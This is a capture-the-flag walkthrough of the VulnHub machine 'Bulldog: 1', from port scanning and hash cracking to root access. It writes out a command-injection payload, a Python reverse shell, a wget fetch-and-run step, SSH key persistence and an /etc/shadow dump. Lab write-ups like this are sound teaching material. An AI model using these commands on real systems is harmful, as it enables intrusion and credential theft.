





[vulnhub - easy/medium] bulldog: 1
----------------------------------

[link to the machine](https://www.vulnhub.com/entry/bulldog-1,211/)

### enumeration - external
Since the machine's ip is already shown at its login page, I decide to check it on my browser to see if there's any useful information in it:


But there isn't relevant info on the page (even after reading the source code) nor in the "Public Notice" link above the bulldog photo (except for text, that is, which could be used in CeWL if it comes to that). Running exiftoon on the photo also doesn't give me anything useful, just the cheeky nod:

```bash
Comment                         : Not a part of the VM, he's just cute :3 https://www.pexels.com/photo/white-and-brown-bulldog-on-brown-wood-planks-160748/
```

I then proceed to run nmap on all ports:

```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ nmap -p- -T4 -oA nmap_info_allports 192.168.56.117
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-26 11:36 -03
Nmap scan report for 192.168.56.117
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
23/tcp   open  telnet
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```

After that, detailed nmap on the detected ports:

```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ nmap -p 23,80,8080 -sC -sV -oA nmap_info_detailed 192.168.56.117
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-26 11:38 -03
Nmap scan report for 192.168.56.117
Host is up (0.00062s latency).

PORT     STATE SERVICE VERSION
23/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|   256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
|_  256 2f:ba:d5:e5:9f:a2:43:e5:3b:24:2c:10:c2:0a:da:66 (ED25519)
80/tcp   open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
|_http-server-header: WSGIServer/0.1 Python/2.7.12
8080/tcp open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
|_http-server-header: WSGIServer/0.1 Python/2.7.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.03 seconds
zsh: segmentation fault  nmap -p 23,80,8080 -sC -sV -oA nmap_info_detailed 192.168.56.117
```

The port 8080 is serving the same thing as the port 80, so I proceed to use gobuster to bruteforce possible directories.

```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ gobuster dir -u http://192.168.56.117/ -o gobuster_info -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.117/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2022/10/26 11:43:47 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://192.168.56.117/admin/]
/dev                  (Status: 301) [Size: 0] [--> http://192.168.56.117/dev/]  
/robots.txt           (Status: 200) [Size: 1071]                                
/notice               (Status: 301) [Size: 0] [--> http://192.168.56.117/notice/]
Progress: 63900 / 882244 (7.24%)                                                ^C
[!] Keyboard interrupt detected, terminating.
                                                                                 
===============================================================
2022/10/26 11:45:21 Finished
===============================================================
```

The /dev/ directory found by gobuster seems to have interesting information in it. At surface level, this is what it looks like:


And when trying to go to the "Web-Shell" link, what I get is:


Meaning that I must authenticate (probably happens in the /admin/ directory found by gobuster) in order to access this page.

When viewing the /dev/ page source, I find the following information commented out:

```html
<!--Need these password hashes for testing. Django's default is too complex-->
<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->
```

So I copy all these hashes into a file named 'hashes.txt', and run:
```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ sudo hashcat -m 100 -a 0 -o cracked_hashes.txt hashes.txt /home/j/Desktop/wordlists/SecLists/rockyou.txt
```

And they read as:
```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ sudo cat cracked_hashes.txt
ddf45997a7e18a25ad5f5cf222da64814dd060d5:bulldog
d8b8dd5e7f000b8dea26ef8428caf38c04466b3e:bulldoglover
```

So, cross-referencing the cracked hashes to the comments, I get that username 'sarah' has password 'bulldoglover' and username 'nick' has password 'bulldog'.
When I go to the '/admin/' directory, it redirects me to '/admin/login/?next=/admin/', and  I'm presented to:




### exploitation - external to internal
I proceed to log-in with Username 'sarah' and Password 'bulldoglover'. After that I go to '/dev/' again, click on the "Web-Shell" link, and am redirected to:



I seem to be able to run only the commands allowed, when I try to ping back my host machine, what I get is:



But, as it is well known, we can use ';' to run one command and then the next, one, so trying "pwd; whoami":



But there is another way, using an ampersand, so, running "pwd& whoami":



And I get the info that the user serving the page is 'django', and also that the string sent is not clean enough, allowing for the ampersand to pass. So I proceed to plan a reverse shell. I check to see if the machine has php, by running:

```bash
pwd& which php
```

But the server returns status 500, which I think means that it doesn't have php installed. So I run:

```bash
pwd& which python
```

And it returns the path to python, which can be used for a reverse shell. But it shouldn't be a one-line reverse shell because the input doesn't allow it (due to the semicolons), so I must create a 'revshell.py' file on my machine, that reads:

```
┌──(j㉿kali)-[~/Desktop/TOOLS]
└─$ cat revshell.py
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.1",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

And serve it on through python's simpleHTTPserver and download it through wget on the target machine, so, on my local machine:

```bash
┌──(j㉿kali)-[~/Desktop/TOOLS]
└─$ python3 -m http.server 9000 --bind 192.168.56.1
Serving HTTP on 192.168.56.1 port 9000 (http://192.168.56.1:9000/) ...
```

And run the following on the '/dev/shell':

```bash
pwd& wget 192.168.56.1:9000/revshell.py
```

Now I listen to get the reverse shell on my local machine:

```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ nc -s 192.168.56.1 -lnvp 4444
listening on [192.168.56.1] 4444 ...
```

and run the following on '/dev/shell':

```bash
pwd& python revshell.py
```

And then I receive on my host machine:

```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ nc -s 192.168.56.1 -lnvp 4444
listening on [192.168.56.1] 4444 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.117] 37298
$ 
```

So, just to make the terminal look better, I run the following on my reverse shell:

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /root/.bashrc: Permission denied
django@bulldog:/home/django/bulldog$ 
```

I then create a ssh key pair on my host machine, create the '/home/django/.ssh' folder, and echo my public key into the '/home/django/.ssh/authorized_keys' file, both creating it and writing on it. Then i manage to log in via SSH to the target machine:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1/keys]
└─$ ssh -i id_rsa django@192.168.56.117 -p 23
The authenticity of host '[192.168.56.117]:23 ([192.168.56.117]:23)' can't be established.
ED25519 key fingerprint is SHA256:WDuaz15lEopqS8zRj/BEBWb0cXBXoKW/ZM1CuJpUErg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.56.117]:23' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-87-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

42 packages can be updated.
22 updates are security updates.


Last login: Wed Sep 20 19:35:44 2017
django@bulldog:~$ ls
```

### enumeration - internal

I snoop around on the /home folder, it has two users: /bulldogadmin and /django, I'm currently user 'django'. /bulldogadmin is accessible, and when I list its files:

```bash
django@bulldog:/home/bulldogadmin$ ls -la
total 40
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 20  2017 .
drwxr-xr-x 4 root         root         4096 Aug 24  2017 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin  220 Aug 24  2017 .bash_logout
-rw-r--r-- 1 bulldogadmin bulldogadmin 3771 Aug 24  2017 .bashrc
drwx------ 2 bulldogadmin bulldogadmin 4096 Aug 24  2017 .cache
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 20  2017 .hiddenadmindirectory
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Aug 24  2017 .nano
-rw-r--r-- 1 bulldogadmin bulldogadmin  655 Aug 24  2017 .profile
-rw-rw-r-- 1 bulldogadmin bulldogadmin   66 Aug 24  2017 .selected_editor
-rw-r--r-- 1 bulldogadmin bulldogadmin    0 Aug 24  2017 .sudo_as_admin_successful
-rw-rw-r-- 1 bulldogadmin bulldogadmin  217 Aug 24  2017 .wget-hsts
```

I find the .hiddenadmindirectory, that is also accessible. Inside of it there's a binary named 'customPermissionApp', and a text file named 'note' that reads:

```
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ cat note 
Nick,

I'm working on the backend permission stuff. Listen, it's super prototype but I think it's going to work out great. Literally run the app, give your account password, and it will determine if you should have access to that file or not! 

It's great stuff! Once I'm finished with it, a hacker wouldn't even be able to reverse it! Keep in mind that it's still a prototype right now. I am about to get it working with the Django user account. I'm not sure how I'll implement it for the others. Maybe the webserver is the only one who needs to have root access sometimes?

Let me know what you think of it!

-Ashley
```

I cannot execute nor change the binary, only read it, and since it is a prototype, its juicy strings are probably exposed somehow, so I run:
```

django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ strings customPermissionApp 
[RELEVANT SECTION]
GLIBC_2.4
GLIBC_2.2.5
UH-H
SUPERultH
imatePASH
SWORDyouH
CANTget
dH34%(
AWAVA
AUATL
[]A\A]A^A_
Please enter a valid username to use root privileges
        Usage: ./customPermissionApp <username>
sudo su root
;*3$"
[RELEVANT SECTION]
```

### exploitation - internal - privesc

And find this piece: 'SUPERultH imatePASH SWORDyouH CANTget', which is a string that got messed up by the binary, and probably reads: 'SUPERultimatePASSWORDyouCANTget'. On the note Ashley said she was about to get it working with user Django, so, testing the password with django:

```
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ su django 
Password: 
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ 
```

No error message, which means it worked! 
So I go and execute the 'sudo -l' command that was blocked before because it required the password for user django:

```
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ sudo -l
[sudo] password for django: 
Matching Defaults entries for django on bulldog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User django may run the following commands on bulldog:
    (ALL : ALL) ALL
```

And it is amazing news, it means I can run all commands as all users in this machine, so I run:

```
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ sudo -u root /bin/bash
root@bulldog:/home/bulldogadmin/.hiddenadmindirectory#
```

And like so I get the root user, proof:

```
root@bulldog:~/bulldog# cat /etc/shadow
root:!:17402:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
games:*:17379:0:99999:7:::
man:*:17379:0:99999:7:::
lp:*:17379:0:99999:7:::
mail:*:17379:0:99999:7:::
news:*:17379:0:99999:7:::
uucp:*:17379:0:99999:7:::
proxy:*:17379:0:99999:7:::
www-data:*:17379:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
gnats:*:17379:0:99999:7:::
nobody:*:17379:0:99999:7:::
systemd-timesync:*:17379:0:99999:7:::
systemd-network:*:17379:0:99999:7:::
systemd-resolve:*:17379:0:99999:7:::
systemd-bus-proxy:*:17379:0:99999:7:::
syslog:*:17379:0:99999:7:::
_apt:*:17379:0:99999:7:::
lxd:*:17402:0:99999:7:::
messagebus:*:17402:0:99999:7:::
uuidd:*:17402:0:99999:7:::
dnsmasq:*:17402:0:99999:7:::
bulldogadmin:$6$ptDAOrmL$WXhC9QKOwroIsYRs/OV3HaXpVyC9YhPV2wbZ/4ukeQhxAPi0Owwz1t8ApjGS9lEhSMYLJCiRZt4O/ri07NrJd/:17402:0:99999:7:::
django:$6$rxxY3Uul$vOG9E/eGcT96nnz13uzJIdoKqkU5Ci6Uy3I5OG6NfIFrWOi8zALmZTJSZFRRiA2sdQ6jVDUMCjNUHOq.O.M46/:17402:0:99999:7:::
sshd:*:17404:0:99999:7:::
```

Shout out to [@frichette_n](https://twitter.com/Frichette_n) on Twitter for making this machine.